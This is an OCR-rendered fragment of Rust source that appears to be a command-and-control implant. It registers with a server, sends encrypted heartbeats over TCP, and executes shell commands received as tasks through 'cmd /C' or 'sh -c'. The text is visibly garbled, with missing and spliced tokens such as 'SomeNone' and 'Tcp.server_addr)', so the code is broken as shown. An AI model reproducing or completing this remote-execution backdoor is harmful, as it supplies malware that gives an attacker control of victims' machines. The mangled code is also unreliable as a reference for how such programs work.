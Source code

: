 ```rust
            let decrypted = self.decrypt(&data);
            
            let response: Message = serde_json::from_str(&decrypted).unwrap();
            if let MessageType::Registration = response.msg_type {
                self.id = Some(response.content);
                true
            } else {
                false
            }
        } else {
            false
        }
    }
    
    fn heartbeat(&self) -> Option<Message> {none() {
            return None;
        }
        
        if let Ok(mut stream) = Tcp.server_addr) {
            let message = Message {
                id: Uuid::new_v4().to_string(),
                msg_type: MessageType::Heartbeat,
                timestamp: SystemTime::now().duration_since(SystemTime::UNIX_EPOCH).unwrap().as_secs(),to_string(),
                agent_id: self.id.clone(),
            };serde_json::to_string(&message).unwrap());
            stream.write_all(encrypted.as_bytes()).unwrap();
            
            let mut buffer = [0; 4096 = stream.read(&mut buffer).unwrap();
            let data = String::from_utf8_lossy(&buffer[0..size]).to_string();
            let decrypted = self.decrypt(&data);
            
            let response: Message = serde_json::from_str(&decrypted).unwrap();
            SomeNone
        }
    }
    
    fn execute_command(&self, command: &str) -> Output {
        #[cfg(target_os = "windows")]
        let output = Command::new("cmd")
            .args(&["/C", command])
            
        
        #[cfg(target_os = "linux")]
        let output = Command::new("sh command])
            .output()
            .unwrap();
        (not(any(target_os = "windows", target_os = "linux")))]
        let output = Command::new("sh")
            .args(&["-c",unwrap();
        
        output
    }
    
    fn handle_task(&self, task: &str) -> String {
        let task_data: HashMap<String, String> = serde_json::from_str(task).unwrap();
        
        if task_data.get("type").unwrap() == "shell" {
            let command = task_data.get("command").unwrap();
            let task_id = task_data.get("task_id").unwrap();
            
            execute_command(command);
            
```